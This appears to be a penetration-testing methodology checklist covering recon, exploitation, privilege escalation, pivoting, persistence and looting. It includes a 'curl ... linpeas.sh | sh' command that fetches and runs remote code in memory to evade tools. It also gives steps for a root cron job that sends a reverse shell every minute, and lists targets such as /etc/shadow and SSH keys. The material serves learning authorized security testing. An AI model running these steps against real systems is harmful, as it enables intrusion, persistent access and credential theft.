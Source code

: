 # Pentest Process

### Scoping (Comes directly from client)

- This information will be found in the SoW (Scope of Work) and will be in the form of a list of hostnames/IP's

### Recon (passive and active, OSINT & Scanning)

#### passive (Googling/OSINT/HUMINT)

<----------------------> 

Line in the Proverbial Sand|Federal Offense Territory

#### active (Make sure machine is online/finding other machines, find open ports, look for vulnerable services/webpage)

- ([Ping Sweep](./ping_sweep.md) (-sn/for loop one-liner/arp -a){this is how we verify where other machies are on the network} 
- NMap (fast,service,all scans){This is how we find open ports on targets}
- Vuln Assessment (Openvas, Nessus){These can be used to find Low Hanging Fruit on an engagement}
- phishing/social engineering)
- (Brute forcing accounts/emails)

### Exploitation 

- Find vulnerability via scanned service by further enumerating any open ports that you find, otherwise you have to create/find your own zero-day
- find exploit Proof of Concept (PoC) code/payload via Google or seachsploit 
- [catch a reverse shell](https://github.com/Gadoof/Gadoof/blob/main/reverse_shell_playbook.md#basic-reverse-shell)
- [upgrade your shell](https://github.com/Gadoof/Gadoof/blob/main/reverse_shell_playbook.md#enable-fully-interactive-shell)
	- Remember that this process is dangerous if you're using an unstable exploit!

### Post-Exploitation

#### - [priv esc](./priv_esc_playbook) = get to root

- linpeas/winpeas
    - Be sure to be running screen/tmux, use logging (ctr + a; H) to catch the output of this next command
    - curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh == will run in memory, should help with bypass for basic tools
    - Can also host with a simple python web server or utilizing SMB to run in memory

#### - pivoting = 

- check arp cache = good for a static check against a local cache of targets; not thorough, especially against segmented VLANs
- [ping_sweep](./ping_sweep.md) = how we find internal targets, ran from victim1
- [proxychains from Kali](./pivoting_playbook.md) = how we interact with internal targets

#### - persistence = setup a way for the box to always send you a reverse shell

- This process becomes PRIORITY if you're using an unstable exploit, you do this before you upgrade!
- Will need a fully functional shell to get this step to work...
	- Find your favorite reverse shell and validate that it works from the victim back to your attacker machine
	- sudo crontab -e
	- add in 5 "*" with spaces between each and before your reverse shell
	- save that and then open your reverse shell to catch a rev shell every minute from the victim

#### - data exfil = loot 

- hard coded passwords
- ssh/rsa keys
- hashed passwords in /etc/shadow) 
- ctf flags 
- look for password reuse attack opportunities

